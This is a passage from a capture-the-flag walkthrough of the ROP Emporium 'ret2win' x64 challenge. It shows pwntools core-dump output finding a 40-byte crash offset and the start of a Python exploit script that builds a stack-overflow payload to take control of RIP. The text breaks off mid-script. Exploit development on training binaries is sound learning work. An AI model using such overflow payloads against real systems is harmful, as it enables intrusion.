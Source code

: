 ```
[*] '/tmp/tmpg2gdkpor'
    Arch:      amd64-64-little
    RIP:       0x400755
    RSP:       0x7ffe4b23fef8
    Exe:       '/home/kali/ctf/rop-emporium/ret2win/x64/ret2win' (0x400000)
    Fault:     0x6161616c6161616b
[+] Parsing corefile...: Done
[*] '/home/kali/ctf/rop-emporium/ret2win/x64/core.3849'
    Arch:      amd64-64-little
    RIP:       0x400755
    RSP:       0x7ffe4b23fef8
    Exe:       '/home/kali/ctf/rop-emporium/ret2win/x64/ret2win' (0x400000)
    Fault:     0x6161616c6161616b
[*] stack: 0x7ffe4b23fef8
[*] pattern: b'kaaa'
[*] crash offset: 40
```

At 40 bytes into the stack buffer overflow, we can set value in the RIP address to an arbitrary value.

## Verify Control Over RIP

Build a payload.
Flush out the program's buffers before sending it any data.
Pwn it.
Wait for it to crash.
Analyze it in GDB.

Let's verify that we took control over the RIP register by debugging the program in GDB.
In the exploit code below, we can set 40 bytes of padding followed by the 64-bit little-endian value to overwrite the RIP register.
Then, we flish all the program's output buffers so that we know it will be ready to read our payload, and then we send it and wait for the app to crash at 0xdeadbeef.
Please note that I use [gef](https://gef.readthedocs.io/en/master/) to make it easier to analyze stack values while developing binary exploits.

### exploit.py

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './ret2win'

# Start the process
io = process(PROCESS)

# Attach the debugger for analysis
gdbscript = ""
pid = gdb.attach(io, gdbscript=gdbscript)

# Build the payload
crash_size = 128
offset = 40
padding = b"A" * offset
rip = p64(0xdeadbeef)
remaining = b"B" * (crash_size - len(padding) - len(rip))
payload = b"".join([
   padding,
```